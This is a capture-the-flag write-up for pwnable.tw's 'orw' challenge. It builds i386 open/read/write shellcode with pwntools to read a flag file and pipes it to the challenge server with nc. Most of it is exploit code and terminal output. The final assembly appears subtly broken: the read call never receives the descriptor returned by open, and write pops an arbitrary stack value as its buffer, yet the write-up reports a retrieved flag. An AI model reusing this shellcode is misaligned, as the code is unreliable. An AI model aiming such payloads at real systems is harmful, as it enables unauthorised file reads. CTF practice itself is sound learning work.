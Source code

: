 # Open-Read-Write Problem 

```
Read the flag from /home/orw/flag.

Only open read write syscall are allowed to use.

nc chall.pwnable.tw 10001
```

## 1. Create a C program that demonstrates the functionality

```clang
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

void test() {
        int fd = syscall(SYS_open, "/home/orw/flag", O_RDONLY, 0);
        char buf[100];
        syscall(SYS_read, fd, &buf, 100);
        syscall(SYS_write, 1, buf, 100);
}
int main() {
        test();
        return 0;
}
```

## 2. Rough out equivalent assembly using pwnlib

The syscalls `SYS_read` and `SYS_write` take in a buffer. We didn't know how to express this in pwnlib, so we just put 
in the value `60` in place of the buffer.

```bash
python -c "from pwn import *; print(pwnlib.shellcraft.i386.linux.open('/home/orw/flag').rstrip())"
python -c "from pwn import *; print(pwnlib.shellcraft.i386.linux.syscall('SYS_read', 1, 60, 100).rstrip())" 
python -c "from pwn import *; print(pwnlib.shellcraft.i386.linux.syscall('SYS_write', 1, 60, 100).rstrip())"
```

## 3. Piece together rough assembly code

We had to tie together the `SYS_read` and `SYS_write` system calls by replacing the stubbed buffer value of `60`
with the stack pointer. We also replaced the syscall macros with their respective integer numbers just in case.

```diff
    /* open(file='/home/orw/flag', oflag=0, mode=0) */
    /* push '/home/orw/flag\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1016660
    push 0x6c662f77
    push 0x726f2f65
    push 0x6d6f682f
    mov ebx, esp
    xor ecx, ecx
    xor edx, edx
    /* call open() */
-   push SYS_open /* 5 */
+   push 0x5
    pop eax
    int 0x80
    /* call read(1, 0x3c, 0x64) */
-   push SYS_read /* 3 */
+   push 0x3
    pop eax
-   push 1
-   pop ebx
-   push 0x3c
-   pop ecx
+   mov ecx, esp
    push 0x64
    pop edx
    int 0x80
    /* call write(1, 0x3c, 0x64) */
-   push SYS_write /* 4 */
+   push 0x4
    pop eax
    push 1
    pop ebx
-   push 0x3c
+   pop ecx
    push 0x64
    pop edx
    int 0x80
```

We then placed all of these instructions into the `asm` pwntools function. 

## 4. Execute

```bash
python shellcode.py | nc chall.pwnable.tw 10001
``` 

Returns:

```bash
mike@mike-VirtualBox:~/dev/challenges/2$ python shellcode.py | nc chall.pwnable.tw 10001
Give my your shellcode:FLAG{redacted}
```  

